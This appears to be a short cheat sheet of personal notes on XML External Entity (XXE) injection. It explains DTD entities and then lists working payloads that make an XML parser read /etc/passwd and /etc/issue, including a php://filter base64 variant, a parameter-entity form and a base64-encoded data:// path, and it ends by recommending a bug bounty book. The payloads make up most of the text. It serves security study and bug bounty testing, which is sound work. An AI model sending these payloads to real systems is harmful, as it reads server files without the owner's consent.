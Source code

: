 ```powershell
<!DOCTYPE note [
<!ENTITY user "nandangSec">
<!ENTITY message "nandangSecmessage">
]>

In this example the ENTITY user holds the info nandangSec which can be called with &user

Now this is useful as we get something called EXTERNAL ENTITY which will load the data from a external resource in comparison to something "local"

Examples:

<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://nandangpy.github.io" > ]>
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///etc/passwd" > ]>


We could also combine this with PHP Object Injection (More on that below) to have a payload like this

<!ENTITY xxe SYSTEM 'php://filter/convert.base64-encode/resource=/etc/issue' >]>

Testing the Waters

<?xml version="1.0" encoding="utf-8"?>

Testing the Waters #2


<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [
<!ENTITY % nandangSec SYSTEM "file:///etc/passwd">
%nandangSec;
]>

<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>
&xxe;
</foo>


Base64

<!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>


This is the basis, if you want the proper example go and buy the Bug Bounty Playbook.pdf :) Its my favourite book for bug bounty.
```
